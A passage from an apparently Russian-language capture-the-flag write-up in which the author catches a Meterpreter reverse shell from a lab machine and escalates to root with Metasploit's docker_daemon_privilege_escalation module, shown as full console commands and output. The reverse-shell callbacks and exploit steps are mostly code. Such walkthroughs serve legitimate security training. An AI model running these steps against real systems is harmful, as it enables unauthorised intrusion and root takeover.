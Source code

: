 Активируем бэкдор на прометее и ловим сессию:
```text
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.83:48154) at 2018-08-26 11:02:13 -0400
```

Дальше как по нотам: уходим в фон, выбираем нужную нагрузку (`docker_daemon_privilege_escalation`) для апгрейда сессии и получаем права суперпользователя:
```text
meterpreter > CTRL-Z
Background session 1? [y/N] y
msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                             Connection
  --  ----  ----                   -----------                                             ----------
  1         meterpreter x86/linux  uid=1000, gid=1000, euid=1000, egid=1000 @ 10.10.10.83  10.10.14.14:4444 -> 10.10.10.83:48154 (10.10.10.83)

msf exploit(multi/handler) > use exploit/linux/local/docker_daemon_privilege_escalation
msf exploit(linux/local/docker_daemon_privilege_escalation) > show options

Module options (exploit/linux/local/docker_daemon_privilege_escalation):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT  4444              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(linux/local/docker_daemon_privilege_escalation) > run

[*] Started reverse TCP handler on 10.10.14.14:4444
[*] Writing payload executable to '/tmp/mfmDpJe'
[*] Executing script to create and run docker container
[*] Sending stage (861480 bytes) to 10.10.10.83
[*] Waiting 60s for payload
[*] Meterpreter session 3 opened (10.10.14.14:4444 -> 10.10.10.83:48162) at 2018-08-26 11:08:30 -0400

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=0, egid=1000

meterpreter > cat /root/root.txt
aba48699????????????????????????
```

